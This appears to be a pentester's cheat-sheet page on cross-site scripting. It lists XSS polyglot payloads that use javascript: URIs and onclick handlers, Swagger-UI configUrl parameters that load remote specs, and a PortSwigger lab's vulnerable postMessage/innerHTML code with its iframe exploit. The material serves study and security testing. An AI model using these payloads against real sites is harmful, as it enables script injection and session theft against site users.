 ```jsx
    javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
    javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
    javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
    javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
    javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
    javascript://--></title></style></textarea></script><svg "//' onclick=alert()///</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```
# DOM XSS
### **Check for Dom-XSS in Swagger-UI**
- [https://github.com/doosec101/swagger_scanner](https://github.com/doosec101/swagger_scanner)
    - configUrl=https://jumpy-floor.surge.sh/test.json
    - ?url=https://jumpy-floor.surge.sh/test.yaml
###  **[DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)**
    
**Vulnerable Code**
    
```jsx
    <script>
        window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
        })
    </script>
```
    
**Exploit** 
 ```python
<iframe src="<https://target.com/>" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
    
- **[DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)**
- **[DOM XSS using web messages and `JSON.parse`](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)**
- **[DOM-based cookie manipulation](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation)**
- **[Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)**
- **[Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)**
# Stored XSS
## **Stored XSS via SVG file**
  